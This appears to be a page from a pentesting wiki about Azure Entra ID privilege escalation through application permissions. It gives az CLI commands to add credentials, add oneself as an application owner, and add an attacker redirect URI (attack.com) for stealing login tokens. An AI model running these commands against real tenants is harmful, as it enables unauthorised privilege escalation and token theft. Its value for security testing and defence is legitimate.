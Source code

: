 ### `microsoft.directory/applications/credentials/update`

This allows an attacker to **add credentials** (passwords or certificates) to existing applications. If the application has privileged permissions, the attacker can authenticate as that application and gain those privileges.

```bash
# Generate a new password without overwritting old ones
az ad app credential reset --id <appId> --append
# Generate a new certificate without overwritting old ones
az ad app credential reset --id <appId> --create-cert
```

### `microsoft.directory/applications.myOrganization/credentials/update`

This allows the same actions as `applications/credentials/update`, but scoped to single-directory applications.

```bash
az ad app credential reset --id <appId> --append
```

### `microsoft.directory/applications/owners/update`

By adding themselves as an owner, an attacker can manipulate the application, including credentials and permissions.

```bash
az ad app owner add --id <AppId> --owner-object-id <UserId>
az ad app credential reset --id <appId> --append

# You can check the owners with
az ad app owner list --id <appId>
```

### `microsoft.directory/applications/allProperties/update`

An attacker can add a redirect URI to applications that are being used by users of the tenant and then share with them login URLs that use the new redirect URL in order to steal their tokens. Note that if the user was already logged in the application, the authentication is going to be automatic without the user needing to accept anything.

Note that it's also possible to change the permissions the application requests in order to get more permissions, but in this case the user will need accept again the prompt asking for all the permissions.

{% code overflow="wrap" %}
```bash
# Get current redirect uris
az ad app show --id ea693289-78f3-40c6-b775-feabd8bef32f --query "web.redirectUris"
# Add a new redirect URI (make sure to keep the configured ones)
az ad app update --id <app-id> --web-redirect-uris "https://original.com/callback https://attack.com/callback" 
```
{% endcode %}

